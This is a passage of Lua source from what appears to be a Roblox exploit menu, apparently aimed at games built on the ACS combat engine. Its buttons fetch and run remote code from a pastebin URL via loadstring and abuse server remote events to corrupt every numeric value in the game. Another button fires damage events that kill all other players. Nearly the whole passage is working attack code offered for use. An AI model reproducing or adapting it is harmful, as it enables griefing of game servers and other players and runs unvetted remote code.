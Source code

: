 	end)
	
	local Button = script.Parent.FulltrollButton
	
	Button.MouseButton1Down:Connect(function()
		Button.BackgroundColor3 = (Button.Visible and Color3.fromRGB(38, 112, 112)) or Color3.fromRGB(72, 72, 72)
	
		loadstring(game:HttpGetAsync("https://pastebin.com/raw/A34Z7gMx"))()
	
	end)
	
	local Button = script.Parent.HubtrollebButton
	
	Button.MouseButton1Down:Connect(function()
		Button.BackgroundColor3 = (Button.Visible and Color3.fromRGB(38, 112, 112)) or Color3.fromRGB(72, 72, 72)
	
		print('Voce esqueceu dnv de colocar a merda do script aqui')
	
	end)
	
	local Button = script.Parent.IntValueNumberValueButton
	
	Button.MouseButton1Down:Connect(function()
		Button.BackgroundColor3 = (Button.Visible and Color3.fromRGB(38, 112, 112)) or Color3.fromRGB(72, 72, 72)
	
		local Evt_R = game:service('ReplicatedStorage')["ACS_Engine"].Events:FindFirstChild("Refil")
		local Quant = -99999999999999000999
	
		for i,v in pairs(game:GetDescendants()) do
			if v:IsA("IntValue") or v:IsA("NumberValue") then
				Evt_R:FireServer(v,-(Quant-v.Value))
			end
		end
	
	end)
	
	local Button = script.Parent.KillallButtonacs1Button
	
	Button.MouseButton1Down:Connect(function()
		Button.BackgroundColor3 = (Button.Visible and Color3.fromRGB(38, 112, 112)) or Color3.fromRGB(72, 72, 72)
	
		local d = 200
		local p = game.Players.LocalPlayer.Name
		Players = game:GetService("Players")
		for i, player in pairs(Players:GetPlayers()) do
			if player.Name ~= p then
				local tbl_main =
					{
						game:GetService("Workspace")[player.Name].Humanoid,
						d,
						0,
						0
					}
				game:GetService("ReplicatedStorage")["ACS_Engine"].Eventos.Damage:FireServer(unpack(tbl_main))
			end
		end
	